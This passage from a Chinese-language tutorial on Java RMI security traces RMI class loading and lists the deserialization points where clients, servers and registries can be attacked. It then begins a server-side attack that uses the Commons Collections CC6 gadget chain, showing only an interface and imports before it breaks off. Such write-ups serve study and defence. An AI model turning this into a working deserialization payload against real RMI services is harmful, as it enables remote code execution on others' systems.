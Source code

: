 `sun.rmi.server.LoaderHandler$Loader`这个类加载器是`URLClassLoader`的子类

最后`Class<?> c = loadClassForName(name, false, loader);`

![image-20231012200428866](./../.gitbook/assets/image-20231012200428866.png)

`Class.forName`指定了这个加载器去加载。后面会实例化这个类

# 0x06 Attack RMI

上面有`readObject`进行反序列化的地方存在被攻击的隐患

1. 攻击客户端
   * RegistryImp_Stub#lookup   反序列化注册中心返回的Stub
   * UnicastRef#invoke  反序列化远调方法的执行结果
   * StreamRemoteCall#executeCall  反序列化远程调用返回的异常类
   * DGCImpl_Stub#dirty
2. 攻击服务端
   * UnicastServerRef#dispatch     反序列化客户端传递的方法参数
   * DGCImpl_Skel#dispatch
3. 攻击注册中心
   * RegistryImp_Stub#bind  注册中心反序列化服务端传递传来的远程对象

## 攻击服务端

服务端：UnicastServerRef#dispatch 调用了`unmarshalValue`来反序列化客户端传来的远程方法参数

### 远程方法参数为Object

客户端将参数设为payload即可(下面使用CC6)

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface Hello extends Remote {
    String sayHello(Object name) throws RemoteException;
}
```

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

```